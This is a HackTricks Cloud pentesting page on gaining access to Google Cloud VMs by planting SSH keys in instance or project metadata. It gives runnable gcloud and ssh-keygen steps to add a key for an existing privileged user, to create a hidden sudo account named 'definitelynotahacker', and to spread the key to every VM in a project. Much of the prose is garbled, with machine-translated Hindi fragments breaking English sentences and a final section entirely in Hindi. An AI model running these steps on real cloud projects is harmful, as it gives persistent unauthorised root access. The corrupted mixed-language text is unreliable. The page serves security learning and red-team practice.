 # GCP - Add Custom SSH Metadata

## GCP - Add Custom SSH Metadata

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Modifying the metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Metadata modification on an instance could lead to **महत्वपूर्ण सुरक्षा जोखिम यदि एक हमलावर आवश्यक अनुमतियाँ प्राप्त करता है**.

#### **Incorporation of SSH Keys into Custom Metadata**

On GCP, **Linux systems** often execute scripts from the [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). A critical component of this is the [accounts daemon](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), which is designed to **नियमित रूप से जांचना** the instance metadata endpoint for **अधिकृत SSH सार्वजनिक कुंजियों के लिए अपडेट**.

Therefore, if an attacker can modify custom metadata, he could make the the daemon find a new public key, which will processed and **स्थानीय प्रणाली में एकीकृत किया जाएगा**. The key will be added into `~/.ssh/authorized_keys` file of an **मौजूदा उपयोगकर्ता या संभावित रूप से `sudo` अनुमतियों के साथ एक नया उपयोगकर्ता बनाना**, depending on the key's format. And the attacker will be able to compromise the host.

#### **Add SSH key to existing privileged user**

1. **Examine Existing SSH Keys on the Instance:**
*   Execute the command to describe the instance and its metadata to locate existing SSH keys. The relevant section in the output will be under `metadata`, specifically the `ssh-keys` key.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Pay attention to the format of the SSH keys: the username precedes the key, separated by a colon.
2. **Prepare a Text File for SSH Key Metadata:**
* Save the details of usernames and their corresponding SSH keys into a text file named `meta.txt`. This is essential for preserving the existing keys while adding new ones.
3. **Generate a New SSH Key for the Target User (`alice` in this example):**
*   Use the `ssh-keygen` command to generate a new SSH key, ensuring that the comment field (`-C`) matches the target username.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Add the new public key to `meta.txt`, mimicking the format found in the instance's metadata.
4. **Update the Instance's SSH Key Metadata:**
*   Apply the updated SSH key metadata to the instance using the `gcloud compute instances add-metadata` command.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Access the Instance Using the New SSH Key:**
*   Connect to the instance with SSH using the new key, accessing the shell in the context of the target user (`alice` in this example).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Create a new privileged user and add a SSH key**

If no interesting user is found, it's possible to create a new one which will be given `sudo` privileges:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

यह संभव है कि SSH पहुँच को एक क्लाउड वातावरण में कई वर्चुअल मशीनों (VMs) तक बढ़ाया जा सके **परियोजना स्तर पर SSH कुंजी लागू करके**। यह दृष्टिकोण परियोजना के भीतर किसी भी उदाहरण तक SSH पहुँच की अनुमति देता है जिसने स्पष्ट रूप से परियोजना-व्यापी SSH कुंजी को अवरुद्ध नहीं किया है। यहाँ एक संक्षिप्त मार्गदर्शिका है:

1. **परियोजना स्तर पर SSH कुंजी लागू करें:**
*   `gcloud compute project-info add-metadata` कमांड का उपयोग करके `meta.txt` से SSH कुंजी को परियोजना के मेटाडेटा में जोड़ें। यह क्रिया सुनिश्चित करती है कि SSH कुंजी परियोजना में सभी VMs के बीच मान्यता प्राप्त हैं, जब तक कि किसी VM में "ब्लॉक प्रोजेक्ट-व्यापी SSH कुंजी" विकल्प सक्षम नहीं है।

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **परियोजना-व्यापी कुंजी का उपयोग करके उदाहरणों में SSH करें:**
* परियोजना-व्यापी SSH कुंजी लागू होने के साथ, आप परियोजना के भीतर किसी भी उदाहरण में SSH कर सकते हैं। जो उदाहरण परियोजना-व्यापी कुंजी को अवरुद्ध नहीं करते हैं, वे SSH कुंजी को स्वीकार करेंगे, जिससे पहुँच प्राप्त होगी।
* किसी उदाहरण में SSH करने का एक सीधा तरीका `gcloud compute ssh [INSTANCE]` कमांड का उपयोग करना है। यह कमांड आपके वर्तमान उपयोगकर्ता नाम और परियोजना स्तर पर सेट की गई SSH कुंजी का उपयोग करके पहुँच प्राप्त करने का प्रयास करता है।

## References

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
